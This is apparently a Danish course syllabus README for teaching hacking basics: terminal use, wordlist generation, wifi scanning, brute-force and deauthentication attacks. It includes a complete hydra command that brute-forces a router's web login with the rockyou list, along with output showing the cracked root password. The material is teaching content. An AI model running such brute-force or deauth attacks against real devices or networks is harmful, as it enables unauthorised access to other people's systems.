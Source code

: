 # pirathak
[![CC BY-NC-SA 4.0][cc-by-nc-sa-shield]][cc-by-nc-sa]

Uge 36/ 6.september: introduktion terminal, filer, directories
 - Piraterne skal kunne forstå filstruktur i homedirectory
 - Skal kunne bevæge sig i filstrukturen, komme hjem, lave filer, directories
 - Vise filer med cat, bruge less/ more

Uge 37/ 13.september: wordlists og brute force angreb
 - Grundlæggende forståelse af wifi teknologi
 - Forståelse af at generere ordlister med crunch
 - Kunne scanne efter wifi netværk
 - Kunne lave et brute force angreb

Brute force eksempel på at hacke et router interface (en http form) - det kan vi ikke gøre med wifi?!
```
hydra -l root -P ./rockyou.txt -t 9 -V -I 192.168.1.1 http-post-form "/cgi-bin/luci:username=^USER^&password=^PASS^:Invalid username"
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-21 23:21:36
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 9 tasks per 1 server, overall 9 tasks, 14344399 login tries (l:1/p:14344399), ~1593823 tries per task
[DATA] attacking http-post-form://192.168.1.1:80/cgi-bin/luci:username=^USER^&password=^PASS^:Invalid username
[ATTEMPT] target 192.168.1.1 - login "root" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "princess" - 6 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "1234567" - 7 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "rockyou" - 8 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "12345678" - 9 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "abc123" - 10 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "nicole" - 11 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "daniel" - 12 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "babygirl" - 13 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "monkey" - 14 of 14344399 [child 4] (0/0)
[80][http-post-form] host: 192.168.1.1   login: root   password: princess
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-08-21 23:22:21
```

Uge 38/ 20.september: deauth angreb og generering af wordlists
 - Brug af f.eks. cewl (web scraping), cupp (profilering)
 - Brug af wifite


This work is licensed under a
[Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License][cc-by-nc-sa].

[![CC BY-NC-SA 4.0][cc-by-nc-sa-image]][cc-by-nc-sa]

[cc-by-nc-sa]: http://creativecommons.org/licenses/by-nc-sa/4.0/
[cc-by-nc-sa-image]: https://licensebuttons.net/l/by-nc-sa/4.0/88x31.png
[cc-by-nc-sa-shield]: https://img.shields.io/badge/License-CC%20BY--NC--SA%204.0-lightgrey.svg
